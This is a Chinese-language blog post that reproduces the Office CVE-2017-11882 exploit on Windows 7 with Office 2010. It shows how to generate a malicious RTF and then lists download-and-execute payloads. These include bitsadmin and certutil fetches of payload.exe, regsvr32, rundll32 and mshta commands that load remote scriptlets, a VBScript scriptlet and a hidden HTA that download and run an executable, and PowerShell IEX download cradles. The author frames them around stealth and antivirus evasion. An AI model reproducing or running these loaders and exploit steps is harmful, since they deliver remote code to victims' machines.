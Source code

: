 ```yaml
---
title: "Office CVE-2017-11882 复现"
date: 2019-08-03T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['office']
categories: ['漏洞复现']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


漏洞原理移步 [FreeBuf](https://www.freebuf.com/news/154968.html).

环境 Windows 7, Office 2010.

<!--more-->

## 复现过程

[unamer/CVE-2017-11882](https://github.com/unamer/CVE-2017-11882)

[Ridter/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

以前者为例.

生成文档.

```
CVE-2017-11882.py -c calc.exe -t 1 -o test.rtf
```

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190803160354.png)

成功执行, 且无其它警告框.

## 改进载荷

这是一个缓冲区溢出漏洞, 这种类型的漏洞一般限制了 Payload 的长度 (具体原因不再说明, 也没有能力说明). 对于功能比较齐全的 Payload 或是 RAT 基本上都会超出这个长度. 一般有两种缩小的方法, 使用 ShellCode 或是远程加载.

上文中的利用脚本已经集成 ShellCode 注入的功能, 不过我并不太推荐, 一是不能灵活的更改要执行的 Payload, 二是向进程注入 ShellCode 的操作极易被杀软拦截.

仅对远程加载进行说明. 之前我也写过关于远程下载的文章, 不过存在几个问题: 1.  偏向于文件 "下载" 而不是执行 2. 功能单一且拓展性差 3. 隐蔽性差.

针对这些问题, 进行远程加载的程序必须符合以下几点: 1. 易于更改 2. 拓展性强 3. 隐蔽性好 4. 尽量不落地执行.

### bitsadmin certutil

这是仅适用于特殊情况必须文件落地而提供的方式.

bitsadmin 只适用于 Windows 7 及以上版本.

```
bitsadmin /transfer get http://192.168.1.1/payload.exe C:\Windows\Temp\payload.exe
```

certutil 需要删除缓存 (%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content).

```
certutil -urlcache -split -f http://192.168.1.1/payload.exe C:\Windows\Temp\payload.exe
certutil -urlcache -split -f http://192.168.1.100/payload.exe C:\Windows\Temp\payload.exe delete
```

### regsvr32 rundll32 mshta (sct file)

把这些放在一起讲主要是因为它们都能够远程加载 sct.

命令执行.

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
	>
<script language="JScript">
<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</registration>
</scriptlet>
```

下载执行.

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
<script language="VBScript">
<![CDATA[
	Const adTypeBinary = 1
	Const adSaveCreateOverWrite = 2
	Dim http,ado
	Set http = CreateObject("Msxml2.ServerXMLHTTP.6.0")
	http.SetOption 2, 13056
	http.open "GET","https://192.168.1.1/payload.exe",False
	http.send
	Set ado = createobject("Adodb.Stream")
	ado.Type = adTypeBinary
	ado.Open
	ado.Write http.responseBody
	ado.SaveToFile "c:\windows\temp\payload.exe"
	ado.Close
	CreateObject("WScript.Shell").Run "c:\windows\temp\payload.exe",0,true 
]]>
</script>
</registration>
</scriptlet>
```

在 regsvr32 中执行的时候要把 script 标签放在 registration 标签内才能成功执行, 而 CVE-2017-8570 恰好相反.

命令后面的 scrobj.dll 可能会被误以为这是保存的文件名, 但实际上它是被 regsvr32 调用的 DLL 名称, 以此来执行 sct 中的命令的.

```
regsvr32 /u /s /n /i:http://192.168.1.1/cmd.sct scrobj.dll
```

在 rundll32 中执行的时候要把 script 标签放在 registration 标签外才能成功执行, 与 regsvr32 恰好相反.

另外注意 RunHTMLApplication 的后面有一个空格.

```
rundll32 javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:http://192.168.1.1/cmd.sct");window.close();
```

mshta 中 sct 的标签位置与 rundll32 相同.

```
mshta vbscript:Close(Execute("GetObject(""script:http://192.168.1.1/cmd.sct"")"))
```

### mshta (hta file)

与上文执行 sct 不同, 这里执行的是 hta 中的代码.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```

使用这种 Payload 格式执行命令无须担心 hta 窗口的问题.

至于下载执行的方法就不贴出来了, 自己尝试吧.

```
mshta http://192.168.1.1/cmd.hta
```

### powershell

PowerShell 想必大家都不陌生了吧.

有两种执行方式, 一种是远程加载 PowerShell 的代码来执行, 另一种是直接下载 exe 来执行.

```
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/psh-reflection.ps1')
```

```
(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/payload.exe','C:\Windows\Temp\payload.exe')
```

### URL

也能够通过缩小 URL 的方式来缩小 Payload 的长度, 例如各大厂商的短网址缩小.

需要考虑这几个问题: 1. 是否有时间限制 2. 是否是 302 跳转而不是通过 HTML 跳转 3. 在某些地区是否能成功访问.

就不细说了.

## 一些话

生成的文档是 rtf 格式的, 虽然更改为 doc 格式能成功执行, 但如果直接编辑内容, 漏洞会执行失败. 所以必须通过 rtf 合并来自定义内容, 在 CVE-2017-8570 中我提供了具体的步骤, 当然利用脚本中的合成方式也是可以成功的, 只是思路不同罢了.

另外针对之前的改进补充一句话, 对 rtf 中的内容进行编辑保存之后, 原有的 objupdate 会失效, 需要手动再次添加.